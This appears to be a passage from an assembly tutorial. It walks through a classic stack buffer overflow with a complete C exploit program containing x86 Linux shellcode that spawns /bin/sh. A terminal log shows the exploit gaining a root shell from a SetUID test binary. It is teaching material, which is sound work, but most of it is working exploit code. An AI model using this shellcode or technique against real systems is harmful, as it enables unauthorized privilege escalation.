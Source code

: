         int main(int argc, char *argv[])
        {
            /* This string simulates the string in the vulnerable application. As long
             * as this program is called with the same commandline arguments, this string
             * will be in the same position in memory, which lets us set the return addres
             * in the target program. */
            char string[40];
        
            /* Here is the shellcode. The XXXX at the end will be overwritten by the address
             * of "string" */
            char exploit[] =
                "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80" /*  1 - 10 */
                "\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b" /* 11 - 20 */
                "\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d" /* 21 - 30 */
                "\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f" /* 31 - 40 */
                "\x62\x69\x6e\x2f\x73\x68\x90\x90\x90\x90" /* 41 - 50 */
                "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" /* 51 - 60 */
                "XXXX"; /* 61 - 64 */

            /* These two lines cause the program to execute itself the same way
             * the vulnerable program will be executed. This ensures that the stack
             * is set up identicly, so the "string" declared here will have the same
             * address as the "string" in the vulnerable program. */
            if(argc < 2)
                execl(argv[0], "StackVuln", exploit, 0);
        
            /* Overwrite the XXXX with the address that's being jumped to. This is the address
             * of our simulated variable. */
             *((int*)(exploit + 60)) = &string;

            /* Finally, ow call the program with our exploit as the argument */
            execl("./StackVuln", "StackVuln", exploit, 0);

            return 0;
        }

Here, the vulnerable program is set to be SetUID (ie, run as root), and is run with the exploit program:

        ron@slayer:~$ sudo chown root.root StackVuln
        ron@slayer:~$ sudo chmod +s StackVuln
        ron@slayer:~$ ls -l StackExploit StackVuln
         -rwxr-xr-x  1 ron  users 11180 2007-03-14 13:46 StackExploit*
         -rwsr-sr-x  1 root root  11132 2007-03-14 13:36 StackVuln*
        ron@slayer:~$ ./StackExploit
        Program completed normally!

        sh-2.05b# whoami
        root

## nop Slide {#nop_slide}

This section isn\'t necessary to assembly, but if you\'re curious about this exploit and ones like it, this is for you.
